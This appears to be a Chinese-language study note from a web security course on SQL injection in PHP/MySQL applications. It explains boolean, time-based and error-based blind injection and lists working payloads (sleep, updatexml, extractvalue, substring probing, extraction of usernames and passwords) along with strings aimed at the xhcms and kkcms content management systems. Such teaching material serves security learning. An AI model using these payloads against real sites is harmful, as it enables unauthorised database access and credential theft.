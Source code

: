 
---
#PHP-MYSQL-SQL操作-增删改查

1、功能：数据查询

	查询：SELECT * FROM news where id=$id
2、功能：新增用户，添加新闻等

	增加：INSERT INTO news (字段名) VALUES (数据)
3、功能：删除用户，删除新闻等

	删除：DELETE FROM news WHERE id=$id
4、功能：修改用户，修改文章等

	修改：UPDATE news SET id=$id

#PHP-MYSQL-注入函数-布尔&报错&延迟

**解释**
盲注就是在注入过程中，获取的数据不能回显至前端页面。
我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注。

**解决**
常规的联合查询注入不行的情况

**分类**
我们可以知道盲注分为以下三类：

1、布尔盲注
基于布尔的SQL盲注-逻辑判断(需要有输出结果)

	regexp,like,ascii,left,ord,mid
2、延时盲注
基于时间的SQL盲注-延时判断

	if,sleep
3、报错盲注
基于报错的SQL盲注-报错回显(需要开启报错回显)

	floor，updatexml，extractvalue

布尔：

```
	判断数据库名长度
		and length(database())=7;
	判断数据库名前1个字母
		and left(database(),1)='p';
	判断数据库名前2个字母
		and left(database(),2)='pi';
	从第1个字符开始截取1个字符
		and substr(database(),1,1)='p';
	从第2个字符开始截取1个字符
		and substr(database(),2,1)='i';
	ord()将括号中的值转换为ASCII码(通常用于绕过单引号过滤)
		and ord(left(database(),1))=112;
```
延迟：

```
	延时1s
		and sleep(1);
	
	如果条件成立，执行sleep(1)
		and if(1>2,sleep(1),0);
		and if(1<2,sleep(1),0);

```
报错：

```
	and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)
	
	and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
	insert/update报错注入获取信息
	hzk' or  updatexml(1, concat(0x7e,(select (concat_ws('-',username,password)) from pikachu.users limit 0,1)  ),1)  or '
```

更多：
https://www.jianshu.com/p/bc35f8dd4f7c

参考：

```
	like 'ro%'  
	判断ro或ro...是否成立
	
	regexp '^xiaodi[a-z]'
	匹配xiaodi及xiaodi...等
	
	mid(a,b,c) 
	从位置b开始，截取a字符串的c位
	
	substr(a,b,c) 
	从位置b开始，截取字符串a的c长度
	
	left(database(),1)，database() left(a,b)
	从左侧截取a的前b位
	
	length(database())=8 
	判断数据库database()名的长度
	
	ord=ascii ascii(x)=97
	判断x的ascii码是否等于97

```
#PHP-MYSQL-注入条件-数据回显&错误处理

PHP开发项目-输出结果&开启报错

基于布尔：页面只有登录成功和登录失败这两种情况时，可以使用布尔盲注。

	and length(database())=6
基于延时：都不需要

	and if(1=1,sleep(5),0)
基于报错：有数据库报错处理判断标准

	and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)

测试delete注入：（有无回显，有无报错）

```
	删除（延迟）：1 and if(1=1,sleep(5),0)

	删除（布尔）：3 and length(database())=6（无回显 无法判断注入）

	删除（报错）：4 and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)
```

#PHP-MYSQL-CMS案例-插入报错&删除延时

1、xhcms-insert报错

	' and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1) and '

2、kkcms-delete延时

```
	and if(1=1,sleep(5),0)

	or if(1=1,sleep(5),0)

	or if(ord(left(database(),1))=107,sleep(2),0)
```